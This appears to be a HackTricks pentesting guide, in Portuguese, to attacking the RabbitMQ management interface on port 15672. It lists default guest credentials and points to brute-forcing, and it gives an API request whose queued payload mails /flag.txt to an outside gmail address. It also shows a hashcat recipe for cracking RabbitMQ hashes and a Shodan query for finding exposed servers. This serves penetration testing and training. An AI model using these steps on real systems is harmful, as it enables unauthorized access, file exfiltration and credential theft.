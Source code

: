 # 15672 - Pentesting RabbitMQ Management

{{#include ../banners/hacktricks-training.md}}

<figure><img src="../images/i3.png" alt=""><figcaption></figcaption></figure>

**Dica de bug bounty**: **inscreva-se** na **Intigriti**, uma plataforma de **bug bounty premium criada por hackers, para hackers**! Junte-se a nós em [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) hoje e comece a ganhar recompensas de até **$100,000**!

{% embed url="https://go.intigriti.com/hacktricks" %}

## Informações Básicas

Você pode aprender mais sobre RabbitMQ em [**5671,5672 - Pentesting AMQP**](5671-5672-pentesting-amqp.md).\
Neste porto, você pode encontrar o console web de gerenciamento do RabbitMQ se o [plugin de gerenciamento](https://www.rabbitmq.com/management.html) estiver habilitado.\
A página principal deve se parecer com isto:

![](<../images/image (336).png>)

## Enumeração

As credenciais padrão são "_**guest**_":"_**guest**_". Se não funcionarem, você pode tentar [**forçar o login**](../generic-hacking/brute-force.md#http-post-form).

Para iniciar manualmente este módulo, você precisa executar:
```
rabbitmq-plugins enable rabbitmq_management
service rabbitmq-server restart
```
Uma vez que você tenha se autenticado corretamente, verá o console de administração:

![](<../images/image (441).png>)

Além disso, se você tiver credenciais válidas, pode achar interessante a informação de `http://localhost:15672/api/connections`

Note também que é possível **publicar dados dentro de uma fila** usando a API deste serviço com uma solicitação como:
```bash
POST /api/exchanges/%2F/amq.default/publish HTTP/1.1
Host: 172.32.56.72:15672
Authorization: Basic dGVzdDp0ZXN0
Accept: */*
Content-Type: application/json;charset=UTF-8
Content-Length: 267

{"vhost":"/","name":"amq.default","properties":{"delivery_mode":1,"headers":{}},"routing_key":"email","delivery_mode":"1","payload":"{\"to\":\"zevtnax+ppp@gmail.com\", \"attachments\": [{\"path\": \"/flag.txt\"}]}","headers":{},"props":{},"payload_encoding":"string"}
```
## Quebrando Hash
```bash
echo <base64 rabbit mq hash> | base64 -d | xxd -pr -c128 | perl -pe 's/^(.{8})(.*)/$2:$1/' > hash.txt
hashcat -m 1420 --hex-salt hash.txt wordlist
```
### Shodan

- `port:15672 http`

<figure><img src="../images/i3.png" alt=""><figcaption></figcaption></figure>

**Dica de bug bounty**: **inscreva-se** na **Intigriti**, uma plataforma premium de **bug bounty criada por hackers, para hackers**! Junte-se a nós em [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) hoje e comece a ganhar recompensas de até **$100,000**!

{% embed url="https://go.intigriti.com/hacktricks" %}

{{#include ../banners/hacktricks-training.md}}
